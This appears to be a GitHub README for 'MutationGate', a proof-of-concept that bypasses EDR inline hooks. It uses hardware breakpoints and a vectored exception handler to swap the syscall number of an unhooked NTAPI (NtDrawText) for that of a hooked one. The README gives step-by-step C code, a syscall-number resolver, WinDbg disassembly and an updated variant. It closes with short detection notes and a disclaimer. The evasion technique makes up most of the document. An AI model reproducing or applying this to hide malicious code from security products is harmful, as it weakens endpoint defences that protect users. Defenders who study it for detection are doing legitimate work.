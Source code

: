 # MutationGate 1.1 Update version

**This code now includes the modifications to prompt the user for the full path of the executable they want to execute. After receiving the input, it proceeds to execute the specified executable and performs the rest of the functionality as before.
**

MutationGate is a new approach to bypass EDR's inline hooking by utilizing hardware breakpoint to redirect the syscall.

It works by calling an unhooked NTAPI and replacing the unhooked NTAPI's SSN with hooked NTAPI's. In this way, the syscall is redirected to the hooked NTAPI's, and the inline hook can be bypassed without loading the 2nd ntdll module or modifying bytes within loaded ntdll's memory space. 

The provided project is only a `POC`, not a comprehensive implementation. For instance, you could use this approach to set hardware breakpoints for a set of functions. 

The function can also be WIN32API. For instance, we can set the 1st hbp at `DrawText` to redirect the execution to `NtDrawText`, and the 2nd hbp replaces the SSN saved in RAX. In this way, module `kernel32.dll` is not skipped, and the call stack looks more legitimate. 

## Description
EDR tends to set inline hooks for various NTAPI, especially those are usually leveraged in malware, such as `NtAllocVirtualMemory`, `NtOpenProcess`, etc. While other NTAPI that are not usually leveraged in malware tend not to have inline hook, such as `NtDrawText`. It is very unlikely that an EDR set inline hook for all NTAPI.   

Assume NTAPI `NtDrawText` is not hooked, while NTAPI `NtQueryInformationProcess` is hooked, the steps are as follows:

1. Get the address of `NtDrawText`. It can be achieved by utilizing `GetModuleHandle` and `GetProcAddress` combination, or a custom implementation of them via PEB walking.
```c
  pNTDT = GetFuncByHash(ntdll, 0xA1920265);	//NtDrawText hash
  pNTDTOffset_8 = (PVOID)((BYTE*)pNTDT + 0x8);	//Offset 0x8 from NtDrawText
```
2. Prepare arguments for `NtQueryInformationProcess`
3. Set a hardware breakpoint at `NtDrawText+0x8`, when the execution reaches this address, SSN of `NtDrawText` is saved in RAX, but syscall is not called yet.

```windbg
0:000> u 0x00007FFBAD00EB68-8
ntdll!NtDrawText:
00007ffb`ad00eb60 4c8bd1          mov     r10,rcx
00007ffb`ad00eb63 b8dd000000      mov     eax,0DDh
00007ffb`ad00eb68 f604250803fe7f01 test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`ad00eb70 7503            jne     ntdll!NtDrawText+0x15 (00007ffb`ad00eb75)
00007ffb`ad00eb72 0f05            syscall
00007ffb`ad00eb74 c3              ret
00007ffb`ad00eb75 cd2e            int     2Eh
00007ffb`ad00eb77 c3              ret
```
4. Retrieve the SSN of `NtQueryInformationProcess`. Inside the exception handler, update RAX with NtQueryInformationProcess' SSN. I.e., the original SSN was replaced.
```c
...<SNIP>...
uint32_t GetSSNByHash(PVOID pe, uint32_t Hash) 
{
	PBYTE pBase = (PBYTE)pe;
	PIMAGE_DOS_HEADER	pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
	PIMAGE_NT_HEADERS	pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	IMAGE_OPTIONAL_HEADER	ImgOptHdr = pImgNtHdrs->OptionalHeader;
	DWORD exportdirectory_foa = RvaToFileOffset(pImgNtHdrs, ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + exportdirectory_foa);	//Calculate corresponding offset
	PDWORD FunctionNameArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNames));
	PDWORD FunctionAddressArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfFunctions));
	PWORD  FunctionOrdinalArray = (PWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNameOrdinals));

	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++)
	{
		CHAR* pFunctionName = (CHAR*)(pBase + RvaToFileOffset(pImgNtHdrs, FunctionNameArray[i]));
		DWORD Function_RVA = FunctionAddressArray[FunctionOrdinalArray[i]];
		if (Hash == ROR13Hash(pFunctionName))
		{
			void *ptr = malloc(10);
			if (ptr == NULL) {
				perror("malloc failed");
				return -1;
			}
			unsigned char byteAtOffset5 = *((unsigned char*)(pBase + RvaToFileOffset(pImgNtHdrs, Function_RVA)) + 4);
			//printf("Syscall number of function %s is: 0x%x\n", pFunctionName,byteAtOffset5);	//0x18
			free(ptr);
			return byteAtOffset5;
		}
	}
	return 0x0;
}
...<SNIP>...
```
5. Since we called `NtDrawText` but with `NtQueryInformationProcess`' arguments, the call should be failed. However, since we changed the SSN, the syscall is successful. 
```c
  fnNtQueryInformationProcess pNTQIP = (fnNtQueryInformationProcess)pNTDT;
  NTSTATUS status = pNTQIP(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);	
```


## Update

![example](screenshot/update.jpg)

I provided an updated poc `MutationGate_Update.cpp`. In this POC, I set 2 hbp respectively at `DrawText` and `NtDrawText+0x8`.

When the execution reaches DrawText, update the RIP to `NtDrawText+0`

When the execution reaches NtDrawText+8, update the RAX to NtQueryInformationProcess' SSN.

**Pros: Avoid the direct call to NTAPI**

**Cons: From the perspective of EDR, it is DrawText initiates the syscall, while NTAPI is skipped.**


## Example

![example](screenshot/poc.png)

In this example, NtDrawtext's SSN is `0xdd`, `NtQueryInformationProcess`' SSN is `0x19`, the address of NtDrawText is `0x00007FFBAD00EB60`

The call is made to NtDrawText's address, but with NtQueryInformationProcess. Since the SSN is changed from `0xdd` to `0x19`, the syscall is successful.

## Disclaimer
1. MutationGate is not an extension or variant of various Gate. Because those Gate focus more on retrieving SSN of NTAPI, MutationGate focuses on bypassing the inline hook in NTAPI.
2. MutationGate is able to bypass inline hook in NTAPI, however, the individual technique does not guarantee to bypass EDR, because EDR has multiple detection dimensions, inline hook is one of them.
3. The project is a POC, not a complete and comprehensive implementation.



## Advantages of MutationGate Approach
So far, some classic and common approaches to bypass EDR's inline hook include but are not limited to the following approaches:
1. Load the 2nd ntdll module
2. Copy a fresh ntdll's text section to overwrite hooked ntdll's text section
3. Overwrite hooked codes(syscall stub) with fresh code
4. More...

The above techniques involve the modification of loaded ntdll, or loading of the 2nd ntdll. These behaviors could be detected by EDR. 

While MutationGate is not the only approach that untouches loaded ntdll, it does have the advantage of not modifying the loaded ntdll module, which decreases the possibility of getting detected. 

And, it is very simple, no need to modify other registers, etc.


## Detection
It is possible to detect MutationGate technique.

1. The `AddVectoredExceptionHandler` call could look suspicious in a normal program.
2. In the POC, NTAPI is called directly, which could be weird in a normal program. However, it can be resolved by adding 1 more hardware breakpoint at `DrawText`, directing the execution to `NtDrawText` and triggering the 2nd hardware breakpoint that replaces SSN.
3. Call stack in kernel space could reveal clues.

## Credits and References
<https://cyberwarfare.live/bypassing-av-edr-hooks-via-vectored-syscall-poc/>

<https://redops.at/en/blog/syscalls-via-vectored-exception-handling>

<https://gist.github.com/CCob/fe3b63d80890fafeca982f76c8a3efdf>

<https://malwaretech.com/2023/12/silly-edr-bypasses-and-where-to-find-them.html>

Maldev Academy

ChatGPT

## Other Approaches Utilized Hardware Breakpoint
<https://github.com/Dec0ne/HWSyscalls>

<https://github.com/rad9800/TamperingSyscalls>

<https://github.com/RedTeamOperations/VEH-PoC>

